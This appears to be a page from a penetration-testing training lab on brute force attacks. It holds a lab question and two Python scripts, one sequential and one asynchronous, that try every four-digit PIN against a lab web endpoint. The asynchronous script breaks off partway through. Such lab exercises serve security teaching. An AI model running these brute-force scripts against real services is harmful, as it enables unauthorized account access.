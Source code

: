 # Brute Force Attacks

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 94.237.54.192:44655   

Life Left: 89 minute(s)

Cheat Sheet

+ 2  After successfully brute-forcing the PIN, what is the full flag the script returns?

```python
import requests  
from tqdm import tqdm  
  
ip='94.237.54.192' # Change this  
port=44655 # Change this  
  
# Main  
pbar = tqdm(range(10000), unit="", desc="Trying PIN")  
  
for pin in pbar:  
    formated_pin = f'{pin:04d}' # Convert the number to a 4-digit string (e.g., 7 becomes "0007")  
    pbar.set_description(f"Trying PIN: {formated_pin}")  
  
    # Send requests to the server  
    response = requests.get(f'http://{ip}:{port}/pin?pin={formated_pin}')  
  
    if response.status_code == 200:  
        print(f'[+] Found PIN: {formated_pin}')  
        print(response.json())  
        break
```

Đây là chương trình của tôi nhanh hơn nhiều:

```python
import aiohttp  
import asyncio  
from tqdm.asyncio import tqdm_asyncio  
import sys  
  
ip = '94.237.55.43'  # Change this  
port = 34552  # Change this  
TIMEOUT = 5  # Timeout cho mỗi request (giây)  
CONCURRENT_LIMIT = 100  # Số request đồng thời tối đa  
  
  
async def try_pin(session, pin, semaphore):  
    formatted_pin = f"{pin:04d}"  
    url = f"http://{ip}:{port}/pin?pin={formatted_pin}"  
  
    try:  
        async with semaphore, session.get(url, timeout=aiohttp.ClientTimeout(total=TIMEOUT)) as response:  
            if response.status == 200:  
                data = await response.json()  
                return formatted_pin, data  
    except (aiohttp.ClientError, asyncio.TimeoutError):  
        return None  
    except Exception as e:  
        print(f"\n[!] Unexpected error: {e}")  
        return None  
```